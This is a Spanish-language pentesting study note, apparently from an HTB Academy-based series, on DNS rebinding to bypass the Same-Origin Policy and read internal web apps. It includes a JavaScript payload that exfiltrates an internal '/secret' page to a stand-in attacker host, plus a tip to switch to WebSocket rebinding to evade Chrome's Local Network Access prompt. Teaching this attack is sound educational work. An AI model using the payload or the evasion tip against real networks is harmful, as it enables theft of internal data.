

---
tags:
  - Web/Red-Team
  - Pentesting/Explotacion
  - Modern-Exploitation
Fecha de actualización: 2026-07-15
Nota previa: "[[03 - DNS Rebinding para bypass de filtros SSRF]]"
Nota siguiente: "[[05 - Herramientas, detección y prevención de DNS Rebinding]]"
Area: "[[Modern Exploitation.base|Modern Exploitation]]"
---
---

El segundo uso del rebinding es en el **navegador de la víctima**: saltarse la Same-Origin Policy para <mark style="background: #FFB86CA6;">acceder y exfiltrar datos de aplicaciones internas</mark> (detrás de NAT/firewall) que el atacante no puede alcanzar directamente.

# El escenario

La víctima navega desde su portátil de trabajo, dentro de la red de la empresa, que aloja una app interna confidencial en `http://192.168.178.1/` (solo accesible internamente). La cadena:



<mark style="background: #8000E1A6;">La clave: para el navegador el *origin* **no cambia**</mark> (esquema, host y puerto siguen siendo `attacker.htb`), aunque la IP detrás pase de la web atacante a `192.168.178.1`. Por eso no es una petición cross-origin y el JS **puede leer la respuesta** sin violar la SOP.

> [!warning]+ El puerto debe coincidir
> El origin incluye el **puerto**. Si la app interna corre en `:8000`, la web atacante debe correr también en `:8000` (`http://attacker.htb:8000`). El atacante necesita conocer **IP y puerto** internos de antemano.

# El payload

La app interna tiene `/secret` sin autenticación (el sysadmin asumió que "no es accesible desde fuera → es segura", falso). Lanzamos `DNSrebinder` sobre `www.attacker.htb` (1ª resolución a nuestra IP pública, siguientes a `192.168.178.1`) y servimos:

```html
<script>
startAttack();
function startAttack(){
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://www.attacker.htb/secret', true);
  xhr.onload = () => {
    fetch('http://exfiltrate.attacker.htb:1337/log?data=' + btoa(xhr.response));
  };
  xhr.send();
  setInterval(startAttack, 2000);   // reintenta cada 2s (DNS pinning)
}
</script>
```

Cuando la víctima abre `http://www.attacker.htb`, el rebinding hace que `/secret` acabe golpeando la app interna, y el `btoa(response)` se exfiltra a nuestro servidor. En vez de solo leer, podríamos **modificar** la app interna con `POST`/`PUT`/`DELETE` — al no ser cross-origin, ponemos todos los parámetros libremente.

# Restricciones (importantes)

<mark style="background: #FFB8EBA6;">Las apps internas con **autenticación** están, en la práctica, a salvo</mark>:

- <mark style="background: #ADCCFFA6;">**Las cookies no viajan**</mark>: el navegador cree que habla con el origin `http://attacker.htb`, así que envía las cookies de **ese** origin, no las de `http://192.168.178.1`. El atacante no puede hacer acciones autenticadas sin credenciales válidas → **no** es un CSRF (las peticiones van sin sesión).
- **Excepción**: apps con **autenticación por IP** (whitelist de IPs de la red interna) sí son bypasseables, porque no dependen de cookies.
- **DNS pinning/caching del navegador**: los navegadores cachean la resolución un tiempo (independiente del TTL real). Por eso el payload reintenta cada 2 s — hay que esperar a que expire el pin. En Firefox se ajusta con `network.dnsCacheExpiration`.

# Defensa moderna: Local Network Access (LNA)

> [!info]+ El estándar que mata el rebinding SOP
> El modelo por cabeceras **Private Network Access (PNA)** se **abandonó** (dependía de que cada router/dispositivo IoT actualizara firmware para enviar `Access-Control-Allow-Private-Network`, inviable en la práctica). Su reemplazo es **Local Network Access (LNA)**: en vez de cabeceras opt-in, Chrome muestra un <mark style="background: #FFB86CA6;">**permission prompt al usuario**</mark> (como el de cámara/micrófono) antes de permitir que un sitio público conecte a una IP privada/loopback/`.local`. Lanzado en **Chrome 142 (28 oct 2025)**. Considera la IP a la que resuelve el origin, no solo el nombre — justo lo que el rebinding abusa.
>
> <mark style="background: #FF5582A6;">Hueco táctico para 2026</mark>: LNA **todavía no gatea WebSockets** (ni WebTransport ni WebRTC — hay `crbug` abiertos). Un rebinding sobre `fetch`/XHR contra un Chrome actualizado dispara el prompt visible, pero uno sobre `new WebSocket(...)` sigue colándose sin permiso. Si el PoC vía `fetch` empieza a fallar por el prompt, pivota a **WebSocket-based rebinding** mientras el hueco siga abierto.

Las herramientas (Singularity) y la prevención completa, en [[05 - Herramientas, detección y prevención de DNS Rebinding|la siguiente nota]].

## Referencias

- Chrome — [Local Network Access](https://developer.chrome.com/blog/local-network-access) (reemplazo de PNA: permission prompt, Chrome 142 / oct 2025) · W3C — [Private Network Access](https://wicg.github.io/private-network-access/) (modelo antiguo por cabeceras, abandonado)
- [Singularity of Origin](https://github.com/nccgroup/singularity) (framework de rebinding en navegador)
- PortSwigger — [Same-Origin Policy](https://portswigger.net/web-security/cors/same-origin-policy)
- HTB Academy — *Modern Web Exploitation Techniques* (base, 2023)
